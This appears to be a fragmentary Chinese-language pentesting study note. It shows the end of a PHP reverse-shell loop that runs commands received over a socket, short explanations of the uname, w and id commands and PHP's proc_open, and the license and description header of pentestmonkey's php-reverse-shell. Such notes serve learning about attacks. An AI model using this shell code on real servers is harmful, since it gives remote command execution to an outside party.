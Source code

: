 ``` php

$shell=fgets($fp);

$message=`$shell`;

fputs($fp,$message);

}

fclose($fp);

}

?>
```
---
- uname 主要用于输出一组操作系统的信息
	- -a输出所有的信息
- w 命令用于显示目前登入系统的用户信息。
	- 执行这项指令可得知目前登入系统的用户有哪些人，以及他们正在执行的程序。
	- 单独执行 w 指令会显示所有的用户，您也可指定用户名称，仅显示某位用户的相关信息。

- id 可以显示真实有效的用户ID(UID)和组ID(GID)

- proc_open 执行命令并打开文件指针进行输入/输出

---
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
```